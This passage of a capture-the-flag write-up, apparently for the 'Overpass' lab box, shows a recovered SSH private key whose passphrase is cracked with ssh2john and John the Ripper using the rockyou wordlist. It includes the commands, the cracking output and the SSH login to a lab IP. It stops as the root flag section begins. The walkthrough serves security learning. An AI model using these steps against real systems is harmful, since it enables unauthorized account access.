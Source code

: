 The admin area reveals an SSH key for the user James
![[Pasted image 20210929095728.png]]

We'll save that, remembering to set the permissions to 600 for the key file, and see if we can log into the server via SSH:
```
chmod 600 jameskey
ssh -i jameskey james@10.10.244.201
```

The SSH server then asks for the passphrase for the key. So we're not quite in yet. We'll need to crack the passphrase.

First we convert the key into the correct format for john the ripper to crack using ssh2john.

`/usr/share/john/ssh2john.py jameskey > jameskey-john`

Then we crack it using the rockyou wordlist.

`john --wordlist=/usr/share/wordlists/rockyou.txt jameskey-john`

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (jameskey)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:04 DONE (2021-09-28 20:04) 0.2257g/s 3237Kp/s 3237Kc/s 3237KC/sa6_123..*7¡Vamos!
Session completed
```

So the passphrase is "james13" let's try logging into SSH again.

And it works!

![[Pasted image 20210929100907.png]]

And we easily find the user flag in Jame's home directory.

### Root flag

In James's home directory there is also a file called todo.txt:

```
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```
